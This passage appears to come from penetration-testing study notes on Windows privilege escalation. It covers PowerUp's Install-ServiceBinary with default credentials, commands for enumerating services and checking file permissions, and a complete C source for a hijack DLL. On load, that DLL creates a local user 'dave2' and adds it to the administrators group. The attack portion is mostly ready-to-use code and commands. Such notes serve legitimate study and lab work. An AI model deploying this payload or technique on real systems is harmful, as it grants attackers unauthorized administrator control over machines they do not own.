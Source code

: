 ```
Install-ServiceBinary -Name 'mysql'
```

_Default user/pass is john/Password123!

_This may error if the service runs with other arguments (Check Get-CmiInstance for info on this)

Troubleshooting method if function errors:

```
$ModifiableFiles = echo 'C:\xampp\mysql\bin\mysqld.exe' | Get-ModifiablePath -Literal
```

### Service DLL Hijacking

List all installed Windows services:

```
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
```

Check permissions of interesting binaries (non-Windows or System directories):

```
icacls .\Documents\BetaServ.exe
```

With no Full or Write abilities can't replace the binary.

In practice, download binary to other machine and install to then monitor.

If admin privileges present, use Process Monitor to view attempted and failed DLL loads.

If a DLL library is found to be missing or replaceable, create a C file with payload:

```C
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user dave2 password123! /add");
  	    i = system ("net localgroup administrators dave2 /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```

